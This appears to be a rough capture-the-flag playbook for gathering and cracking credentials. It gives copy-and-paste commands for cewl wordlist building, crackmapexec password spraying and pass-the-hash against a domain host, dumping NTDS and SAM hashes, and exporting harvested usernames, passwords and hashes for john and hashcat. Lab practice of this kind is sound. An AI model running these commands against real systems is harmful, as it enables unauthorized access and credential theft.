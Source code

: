 No more forgetting to collect the obvious clues into a wordlist and manage the accretion of users, password hashes and passwords (clear).

This is 'workflow' / 'playbook' . Jut some simple steps to follow, ideally with copy and paste.  No more missing the obvious clues for usernames and passwords. It would also be great to have some malortron integration too.

The tools in the workflow:
* cewl
* nmap (-sC)
* crackmapexec
* bash pipelines
* john (for rules)
* john (for cracking)
* hashcat (for cracking)

The workflow has a repeated 'core':
1. take 'output' (usernames, clear passwords, wordlists)
2. rules them
3. append to ongoing wordlist

In each workflow task there is a) 'use ongoing wordlist' and b) 'feed outputs into the core.'

# Core

TODO take all words, usernames and passwords, concat and best64 them. save as `guesses.txt`

? If there are no users discovered, copy `guesses.txt` to `users.txt` ?

# CeWL -- Add to the Wordlist

`cewl -d 3 -o -a -m 4 --with-numbers -v -w wordlist.txt https://target.domain/` 

# CrackMapExec -- use guesses

`crackmapexec smb -d DOMAIN -u ${ctf}/users.txt -p ${ctf}/guesses.txt --ntds drsuapi 10.1.0.100`

`--sam` instead for listing local accounts
`==shares` instead for listing shares

# CrackMapExec -- use hashes

`crackmapexec smb -d DOMAIN -u ${ctf}/users.txt -H ${ctf}/hashes.txt --ntds drsuapi 10.1.0.100`

# CrackMapExec -- save usernames, passwords, hashes

`{ echo export creds csv creds.csv; echo exit; } | cmedb ; awk -F "\"*,\"*" '{print $3}' creds.csv > users.txt` save users to `users.txt`

`{ echo export creds plaintext passwords.txt; echo exit; } | cmedb` save plaintext/passwords to `passwords.txt`

`{ echo export creds hashes hashes.txt; echo exit; } | cmedb` save hashes to `hashes.txt`
